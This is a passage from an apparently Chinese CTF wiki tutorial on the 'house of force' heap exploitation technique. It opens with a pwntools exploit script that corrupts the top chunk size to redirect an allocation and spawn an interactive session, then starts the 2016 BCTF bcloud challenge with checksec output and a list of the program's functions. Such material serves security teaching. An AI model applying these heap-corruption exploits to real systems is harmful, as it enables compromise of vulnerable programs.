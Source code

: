 ```shell

magic = 0x400d49
# we must alloc enough size, so as to successfully alloc from fake topchunk
additem(0x30, "ddaa")  # idx 0
payload = 0x30 * 'a'  # idx 0's content
payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size
# modify topchunk's size to -1
modify(0, 0x41, payload)
# top chunk's offset to heap base
offset_to_heap_base = -(0x40 + 0x20)
malloc_size = offset_to_heap_base - 0x8 - 0xf
#gdb.attach(r)
additem(malloc_size, "dada")
additem(0x10, p64(magic) * 2)
print r.recv()
r.interactive()

```

当然，这一题也可以使用 unlink 的方法来做。

## 2016 BCTF bcloud
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-force/2016_bctf_bcloud)

### 基本信息

```shell
➜  2016_bctf_bcloud git:(master) file bcloud   
bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped
➜  2016_bctf_bcloud git:(master) checksec bcloud  
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/2016_bctf_bcloud/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，这是一个动态链接的 32 位程序，主要开启了 Canary 保护与 NX 保护。

### 基本功能

程序大概是一个云笔记管理系统。首先，程序会进行一些初始化，设置用户的名字，组织，host。程序主要有以下几个功能

1. 新建note，根据用户的输入x申请x+4的空间作为note的大小。
2. 展示note，啥功能也没有。。
3. 编辑note，根据用户指定的 note 编辑对应的内容。
4. 删除note，删除对应note。
5. 同步note，标记所有的note已经被同步。
